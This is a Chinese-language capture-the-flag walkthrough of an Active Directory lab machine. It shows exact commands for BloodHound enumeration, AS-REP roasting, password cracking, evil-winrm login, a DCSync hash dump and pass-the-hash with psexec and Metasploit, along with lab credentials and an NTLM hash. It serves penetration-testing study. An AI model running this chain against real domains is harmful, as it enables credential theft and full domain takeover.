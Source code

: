 ## 端口扫描

通过masscan对目标10.10.10.30进行快速的端口扫描
![](./1.png)
 
从扫描结果看出，该服务器开启了多个AD相关端口，如88端口的kerberos服务和389端口的LDAP服务，这意味着这是一台域控服务器。另外，5985端口开放意味着该服务器开启了winrm服务。

## 收集域信息

通过上一台机器获取到的信息，已知域megacorp.local，用户名sandra，密码Password1234!，gc(全局编录服务器)pathfinder.megacorp.local，ns(dns服务器)10.10.10.30
通过bloodhound工具去枚举活动目录。

安装bloodhound-python:

pip install bloodhound  

bloodhound-python -d megacorp.local -u sandra -p "Password1234!" -gc pathfinder.megacorp.local -c all -ns 10.10.10.30

![](./2.png)
 
安装neo4j:
apt install neo4j

安装bloodhound:
apt install bloodhound

开启neo4j:
neo4j start console

访问http://localhost:7474/browser，默认用户名neo4j，密码neo4j，会提示修改密码

Bloodhound –no-sandbox 登陆neo4j的数据库

将bloodhound-python跑出来的json文件拖进bloodhound，bloodhound会开始进行分析。在过滤条件选择Shortest paths to High value Targets 和 Find Principles with DCSync Rights

![](./3.png) 

可以看到svc_bes用户拥有GetChangesAll的权限。这意味着该用户可以从域控复制数据，从而获取用户hash。

![](./4.png)

## 横向移动

发现svc_bes账号没有开启kerberos预授权，这意味存在AS-REP Roasting漏洞，通过impacket中的GetNPUsers脚本获取获取TGT票据，将票据存放到hash文件，用john爆破获取到svc_bes账号的明文密码Sheffield19  

GetNPUsers.py megacorp.local/svc_bes -request -no-pass -dc-ip 10.10.10.30

![](./5.png)

## 获取普通用户权限

安装evil-winrm:
gem install evil-winrm

通过winrm服务登陆svc_bes账号:  

evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19

获取普通用户的flag
![](./6.png)

## 权限提升
 
因为svc_bes用户存在GetChangesAll权限，因此可以使用impacket中的secretdump脚本通过DCsync攻击去dump所有域用户的NTLM hash 

secretsdump.py -dc-ip 10.10.10.30 MEGACORP.LOCAL/svc_bes:Sheffield19@10.10.10.30

![](./7.png)

我们获取到了域管理员的NTLM hash，因此可以使用psexec脚本通过PTH(哈希传递)攻击获取system权限

psexec.py megacorp.local/administrator@10.10.10.30 -hashes NTML hash:NTLM hash
![](./8.png)

msf也有对应的模块
use windows/smb/psexec_psh
set SMBPass aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18
set SMBUser administrator
set SMBDomain MEGACORP.LOCAL
set rhosts 10.10.10.30
set rport 445
exploit
![](./9.png)

## 整体思路
![](./思路.jpg)
 

